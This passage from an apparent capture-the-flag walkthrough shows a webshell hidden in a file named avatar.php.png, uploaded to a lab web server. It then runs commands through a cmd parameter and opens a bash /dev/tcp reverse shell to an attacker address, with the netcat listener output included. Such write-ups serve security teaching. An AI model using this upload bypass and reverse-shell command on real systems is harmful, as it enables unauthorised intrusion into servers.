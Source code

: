 ![](/img/image-20200419140552707.png)

I'll look at why the webserver is treating that file that way in [Beyond
Root](#filesmatch), but seeing this handled as PHP and not an image is
enough for me to move forward. I'll rename my image with a PHP webshell
in it to `avatar.php.png` and upload it. When I visit
`http://10.10.10.185/images/uploads/avatar.php.png?cmd=id`, I can see
the execution in the middle of the page:

![](/img/image-20200419140725925.png)

### Shell

To get a shell from here, I just need to pass in a reverse shell.
Visiting
`http://10.10.10.185/images/uploads/avatar.php.png?cmd=bash -c 'bash -i >%26 /dev/tcp/10.10.14.20/443 0>%261'`
works:



    root@kali# nc -lnvp 443
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.185.
    Ncat: Connection from 10.10.10.185:53650.
    bash: cannot set terminal process group (1140): Inappropriate ioctl for device
    bash: no job control in this shell
    www-data@ubuntu:/var/www/Magic/images/uploads$ id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)



## Priv: www-data --\> theseus
